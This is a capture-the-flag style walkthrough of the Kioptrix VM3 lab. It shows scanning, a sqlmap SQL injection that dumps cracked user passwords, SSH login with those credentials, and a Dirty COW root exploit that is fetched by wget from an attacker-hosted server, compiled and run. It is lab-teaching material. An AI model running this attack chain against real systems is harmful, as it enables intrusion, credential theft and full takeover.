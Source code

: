 # Kioptrix VM3 Walkthrough

## **Prerequisites**
Before starting, ensure the following:

1. **Kioptrix VM3**: Running on VMware or a similar hypervisor.
2. **Attacking Machine**: A penetration testing OS like Kali Linux.
3. **Knowledge**: Basic familiarity with Linux and penetration testing tools.

---

## **1. Network Configuration and Target Discovery**
Ensure both the Kioptrix VM3 and the attacking machine are on the same network. To discover the target's IP address, perform a network scan using `nmap`:

```bash
nmap 192.168.48.1/24 -T4
```

### **Sample Output:**
```plaintext
Nmap scan report for 192.168.48.149
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:FD:CB:95 (VMware)
```

The target IP address is **192.168.48.149**, with SSH (port 22) and HTTP (port 80) open.

---

## **2. Bind Target IP to a Domain Name**
To simplify referencing the target, bind its IP address to a domain name in your `/etc/hosts` file:

```bash
sudo nano /etc/hosts
```

Add the following line:
```plaintext
192.168.48.149 kioptrix3.com
```

Verify the changes:
```bash
cat /etc/hosts
```

### **Expected Output:**
```plaintext
127.0.0.1 localhost
192.168.48.149 kioptrix3.com
```

---

## **3. Service Enumeration**
Perform a detailed scan to identify running services and their versions:

```bash
nmap -sV 192.168.48.149
```

### **Sample Output:**
```plaintext
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
```

The target is running **Apache on port 80** and **OpenSSH on port 22**.

---

## **4. Enumerating HTTP Services**
Since port 80 is open, access the web application by navigating to:

```plaintext
http://kioptrix3.com/
```

To enumerate hidden directories, use **Gobuster** with a wordlist:

```bash
gobuster dir -u http://kioptrix3.com/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### **Sample Output:**
```plaintext
/modules (Status: 301)
/gallery (Status: 301)
/data (Status: 403)
/core (Status: 301)
/style (Status: 301)
/phpmyadmin (Status: 301)
```

Directories such as `/gallery` and `/phpmyadmin` are potential targets for further investigation.

---

## **5. Scanning for Web Application Vulnerabilities**
Use **Nikto** to scan for vulnerabilities in the `/gallery` directory:

```bash
nikto -h http://kioptrix3.com/gallery
```

### **Sample Output:**
```plaintext
/gallery/: The X-Content-Type-Options header is not set.
PHP/5.2.4-2ubuntu5.6 appears to be outdated.
Apache/2.2.8 appears to be outdated.
...
/gallery/db.sql: DATABASE SQL FOUND!
```

The `/gallery/db.sql` file contains sensitive data.

---

## **6. SQL Injection Exploitation**
Exploit a SQL injection vulnerability in `/gallery/gallery.php` using **SQLmap**:

```bash
sqlmap --batch --banner -u http://kioptrix3.com/gallery/gallery.php?id=1 --dump
```

### **Sample Output:**
```plaintext
[INFO] fetched: 'dev_accounts' table entries

+----+---------------------------------------------+------------+
| id | password                                   | username   |
+----+---------------------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e (starwars) | loneferret |
+----+---------------------------------------------+------------+
```

The credentials for `loneferret` are retrieved.

---

## **7. Accessing SSH with Cracked Credentials**
Log in using the retrieved username and password:

```bash
ssh loneferret@192.168.48.149
```

If the connection fails due to unsupported key algorithms, use:

```bash
ssh loneferret@192.168.48.149 -oHostKeyAlgorithms=+ssh-rsa
```

After logging in, explore the system for privilege escalation opportunities.

---

## **8. Privilege Escalation**
### Check Sudo Privileges
Run the following command:

```bash
sudo -l
```

### **Sample Output:**
```plaintext
User loneferret may run the following commands on this host:
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht
```

Since `/usr/local/bin/ht` is executable with root privileges, leverage it to gain root access.

### Alternative: Exploit SUID Binaries
Search for SUID binaries or vulnerabilities like Dirty COW:

```bash
searchsploit linux/local/40839
```

Transfer and compile the exploit:

```bash
python3 -m http.server 8000
wget http://192.168.48.157:8000/40839.c
gcc -pthread 40839.c -o dirty -lcrypt
./dirty /etc/passwd
```

This exploit overwrites `/etc/passwd`, granting root access.

---

## **Note**
This walkthrough is for educational purposes only. Ensure you have explicit permission before testing any system. Use these tools responsibly in authorized environments such as CTF challenges or penetration testing engagements.

